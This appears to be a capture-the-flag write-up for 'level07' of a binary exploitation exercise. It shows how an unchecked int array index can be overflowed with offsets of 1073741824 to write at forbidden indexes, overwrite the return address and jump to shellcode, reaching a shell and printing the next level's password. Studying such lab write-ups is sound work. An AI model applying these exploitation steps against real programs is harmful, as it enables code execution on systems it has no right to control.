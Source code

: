 # Level 07

This level is a storage system, the storage is an array of 100 ints but there
is a catch: you cannot store data at index divisible by 3 (or 0).

```
Array:
. are writable indexes
x are not writable indexes

0xffffd464: x..x
0xffffd474: ..x.
0xffffd484: .x..
0xffffd494: x..x
0xffffd4a4: ..x.
0xffffd4b4: .x..
0xffffd4c4: x..x
0xffffd4d4: ..x.
0xffffd4e4: .x..
0xffffd4f4: x..x
0xffffd504: ..x.
0xffffd514: .x..
0xffffd524: x..x
0xffffd534: ..x.
0xffffd544: .x..
0xffffd554: x..x
0xffffd564: ..x.
0xffffd574: .x..
0xffffd584: x..x
0xffffd594: ..x.
0xffffd5a4: .x..
0xffffd5b4: x..x
0xffffd5c4: ..x.
0xffffd5d4: .x..
0xffffd5e4: x..x
```


Other than that, there is no fstring exploit possible, no string buffer overflow,
the arguments are zeroed-out, the environment is zeroed-out and there is a stack canary.

The catch is that the length of the array is never checked, which means that
we can overflow the array.
This has an even better side effect: as it is an array of int we can overflow
the array so much that we can go back to the initial array pointer:

```
Normal behavior:

	base:	0xffffd464
	index:	4
	adress to store: 0xffffd464 + (4 * sizeof(int)) = 0xffffd474

	Storing at address: 0xffffd474

Hacked behavior:

	base:	0xffffd464
	index:	1073741824
	address to store: 0xffffd464 + (1073741824 * sizeof(int)) = 0x1ffffd464
                                                                   |      |
	WARNING: 0x1ffffd464 is more than 32 bits so it overflows       32 bit

	storing address: 0xffffd464 because the first bit was overflowing
```

Why is this great? because it makes avaliable to us the possibility of writing
to indexes divisible by 3. When we want to write to an index that is a multiple
of three, we just need to add 1073741824 to it, because it overflows the array
perfectly to its beginning, and is not divisible by 3.

By putting the numbers to the indexes 1073741824, 1, 2 and (1073741824 + 3)
we can store data to the first 4 indexes of the array without restriction.

```
----------------------------------------------------
  Welcome to wil's crappy number storage service!   
----------------------------------------------------
 Commands:                                          
    store - store a number into the data storage    
    read  - read a number from the data storage     
    quit  - exit the program                        
----------------------------------------------------
   wil has reserved some storage :>                 
----------------------------------------------------

Input command: store
 Number: 100
 Index: 1073741824
 Completed store command successfully
Input command: store
 Number: 101
 Index: 1
 Completed store command successfully
Input command: store
 Number: 102
 Index: 2
 Completed store command successfully
Input command: store
 Number: 103       
 Index: 1073741827
 Completed store command successfully
```

```gdb
(gdb) x/4d 0xffffd464
0xffffd464:     100     101     102     103
```

Now that's one less problem, but what are we gonna do with this?

We can store continous shellcode in it. Also, the return address of the function
is writable with the overflow. Normally to write to this address we would've
try to write on the index 114 of the array, but 114 is divisible by 3.
Now we can just write on the index 1073741938 (1073741824 + 114) and it works, we
have code redirection.

```bash
level07@OverRide:~$ ./level07 
----------------------------------------------------
  Welcome to wil's crappy number storage service!   
----------------------------------------------------
 Commands:                                          
    store - store a number into the data storage    
    read  - read a number from the data storage     
    quit  - exit the program                        
----------------------------------------------------
   wil has reserved some storage :>                 
----------------------------------------------------

Input command: store
 Number: 42
 Index: 1073741938
 Completed store command successfully
Input command: quit
Segmentation fault (core dumped)
level07@OverRide:~$ dmesg | tail -n1
[ 5399.490681] level07[1916]: segfault at 2a ip 000000000000002a sp 00000000ffffd650 error 14 in level07[8048000+1000]
```

We can see that we are segfaulting to the address that corresponds to the input value.

We have another problem, the program has a script protection that clears stdin
before trying another scanf. Fortunately we can bypass it with something like this:

```py
import time

usleep = lambda x: time.sleep(x / 1000000.0)

def p(x):
    print(x)
    usleep(100)

p("store")
```

This `p()` function will wait that the stdin is cleared to hand back the
execution of the script, thus allowing us to re-write something later.

Now we can write any bit of data, with a script, to our program's memory:


```gdb
(gdb) r < <(python /tmp/level07/script.py)
Starting program: /home/users/level07/level07 < <(python /tmp/level07/script.py)
----------------------------------------------------
  Welcome to wil's crappy number storage service!   
----------------------------------------------------
 Commands:                                          
    store - store a number into the data storage    
    read  - read a number from the data storage     
    quit  - exit the program                        
----------------------------------------------------
   wil has reserved some storage :>                 
----------------------------------------------------

Input command:  Number:  Index:  Completed store command successfully

[...]

Input command:  Number:  Index:  Completed store command successfully
(gdb) x/100d 0xffffd464
0xffffd464:     0       1       2       3
0xffffd474:     4       5       6       7
0xffffd484:     8       9       10      11
0xffffd494:     12      13      14      15
0xffffd4a4:     16      17      18      19
0xffffd4b4:     20      21      22      23
0xffffd4c4:     24      25      26      27
0xffffd4d4:     28      29      30      31
0xffffd4e4:     32      33      34      35
0xffffd4f4:     36      37      38      39
0xffffd504:     40      41      42      43
0xffffd514:     44      45      46      47
0xffffd524:     48      49      50      51
0xffffd534:     52      53      54      55
0xffffd544:     56      57      58      59
0xffffd554:     60      61      62      63
0xffffd564:     64      65      66      67
0xffffd574:     68      69      70      71
0xffffd584:     72      73      74      75
0xffffd594:     76      77      78      79
0xffffd5a4:     80      81      82      83
0xffffd5b4:     84      85      86      87
0xffffd5c4:     88      89      90      91
0xffffd5d4:     92      93      94      95
0xffffd5e4:     96      97      98      99
```

Great! Now we just need to put the shellcode on the code and the return address
to the beginning of the shellcode.

This is written on the script, with a little of trial and error we can make
our address hit the shellcode

```bash
level07@OverRide:~$ (python /tmp/level07/script.py; cat -) | env -i ./level07
----------------------------------------------------
  Welcome to wil's crappy number storage service!   
----------------------------------------------------
 Commands:                                          
    store - store a number into the data storage    
    read  - read a number from the data storage     
    quit  - exit the program                        
----------------------------------------------------
   wil has reserved some storage :>                 
----------------------------------------------------

[...]

Input command:  Number:  Index:  Completed store command successfully
whoami
level08
cd ../level08
cat .pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```